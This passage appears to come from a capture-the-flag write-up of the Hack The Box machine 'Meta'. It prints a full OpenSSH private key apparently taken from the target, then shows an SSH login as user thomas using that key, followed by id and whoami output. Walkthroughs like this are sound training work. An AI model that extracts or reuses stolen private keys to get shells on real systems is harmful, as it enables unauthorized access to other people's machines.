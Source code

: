 ```bash
-----BEGIN OPENSSH PRIVATE KEY----- b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn NhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5 x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvV qMgzqmJPFAdxmkD9WRnVP9OqEF0ZEYwTFuFPUlNq5hSbNRucwXEXbW0Wk7xdXwe3OJk8hu ajeY80riz0S8+A+OywcXZg0HVFVli4/fAvS9Im4VCRmEfA7jwCuh6tl5JMxfi30uzzvke0 yvS1h9asqvkfY5+FX4D9BResbt9AXqm47ajWePksWBoUwhhENLN/1pOgQanK2BR/SC+YkP nXRkOavHBxHccusftItOQuS0AEza8nfE5ioJmX5O9+fv8ChmnapyryKKn4QR4MAqqTqNIb 7xOWTT7Qmv3vw8TDZYz2dnlAOCc+ONWh8JJZHO9i8BXyHNwAH9qyESB7NlX2zJaAbIZgQs Xkd7NTUnjOQosPTIDFSPD2EKLt2B1v3D/2DMqtsnAAAFgOcGpkXnBqZFAAAAB3NzaC1yc2 EAAAGBALfSKCOYB7c/KJobGmfRsvsF8jWT6eYyWb2zifeOjiOINpEUQxw5uce7qd8+bPx/ 8ro4I4K6Djh4fcwQbomdSZ9Y5b3kTOx9VS27WPJP6zfTxXvzJEbGHR+OSL1ajIM6piTxQH cZpA/VkZ1T/TqhBdGRGMExbhT1JTauYUmzUbnMFxF21tFpO8XV8HtziZPIbmo3mPNK4s9E vPgPjssHF2YNB1RVZYuP3wL0vSJuFQkZhHwO48AroerZeSTMX4t9Ls875HtMr0tYfWrKr5 H2OfhV+A/QUXrG7fQF6puO2o1nj5LFgaFMIYRDSzf9aToEGpytgUf0gvmJD510ZDmrxwcR 3HLrH7SLTkLktABM2vJ3xOYqCZl+Tvfn7/AoZp2qcq8iip+EEeDAKqk6jSG+8Tlk0+0Jr9 78PEw2WM9nZ5QDgnPjjVofCSWRzvYvAV8hzcAB/ashEgezZV9syWgGyGYELF5HezU1J4zk KLD0yAxUjw9hCi7dgdb9w/9gzKrbJwAAAAMBAAEAAAGAFlFwyCmMPkZv0o4Z3aMLPQkSyE iGLInOdYbX6HOpdEz0exbfswybLtHtJQq6RsnuGYf5X8ThNyAB/gW8tf6f0rYDZtPSNyBc eCn3+auUXnnaz1rM+77QCGXJFRxqVQCI7ZFRB2TYk4eVn2l0JGsqfrBENiifOfItq37ulv kroghSgK9SE6jYNgPsp8B2YrgCF+laK6fa89lfrCqPZr0crSpFyop3wsMcC4rVb9m3uhwc Bsf0BQAHL7Fp0PrzWsc+9AA14ATK4DR/g8JhwQOHzYEoe17iu7/iL7gxDwdlpK7CPhYlL5 Xj6bLPBGmRkszFdXLBPUrlKmWuwLUYoSx8sn3ZSny4jj8x0KoEgHqzKVh4hL0ccJWE8xWS sLk1/G2x1FxU45+hhmmdG3eKzaRhZpc3hzYZXZC9ypjsFDAyG1ARC679vHnzTI13id29dG n7JoPVwFv/97UYG2WKexo6DOMmbNuxaKkpetfsqsLAnqLf026UeD1PJYy46kvva1axAAAA wQCWMIdnyPjk55Mjz3/AKUNBySvL5psWsLpx3DaWZ1XwH0uDzWqtMWOqYjenkyOrI1Y8ay JfYAm4xkSmOTuEIvcXi6xkS/h67R/GT38zFaGnCHh13/zW0cZDnw5ZNbZ60VfueTcUn9Y3 8ZdWKtVUBsvb23Mu+wMyv87/Ju+GPuXwUi6mOcMy+iOBoFCLYkKaLJzUFngOg7664dUagx I8qMpD6SQhkD8NWgcwU1DjFfUUdvRv5TnaOhmdNhH2jnr5HaUAAADBAN16q2wajrRH59vw o2PFddXTIGLZj3HXn9U5W84AIetwxMFs27zvnNYFTd8YqSwBQzXTniwId4KOEmx7rnECoT qmtSsqzxiKMLarkVJ+4aVELCRutaJPhpRC1nOL9HDKysDTlWNSr8fq2LiYwIku7caFosFM N54zxGRo5NwbYOAxgFhRJh9DTmhFHJxSnx/6hiCWneRKpG4RCr80fFJMvbTod919eXD0GS 1xsBQdieqiJ66NOalf6uQ6STRxu6A3bwAAAMEA1Hjetdy+Zf0xZTkqmnF4yODqpAIMG9Um j3Tcjs49usGlHbZb5yhySnucJU0vGpRiKBMqPeysaqGC47Ju/qSlyHnUz2yRPu+kvjFw19 keAmlMNeuMqgBO0guskmU25GX4O5Umt/IHqFHw99mcTGc/veEWIb8PUNV8p/sNaWUckEu9 M4ofDQ3csqhrNLlvA68QRPMaZ9bFgYjhB1A1pGxOmu9Do+LNu0qr2/GBcCvYY2kI4GFINe bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE= -----END OPENSSH PRIVATE KEY-----
```

After editing the key value as private key format, I opened a SSH shell using this key.

```bash
┌──(kali㉿kali)-[~/htb/meta]
└─$ ssh -i thomas.priv thomas@10.10.11.140      
The authenticity of host '10.10.11.140 (10.10.11.140)' can't be established.
ED25519 key fingerprint is SHA256:Y8C2lOecv5ZDp3I6M5zjDUYDVsc3p/pgjF9HVRPioqQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.140' (ED25519) to the list of known hosts.
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

thomas@meta:~$ id
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)

thomas@meta:~$ whoami
thomas
```
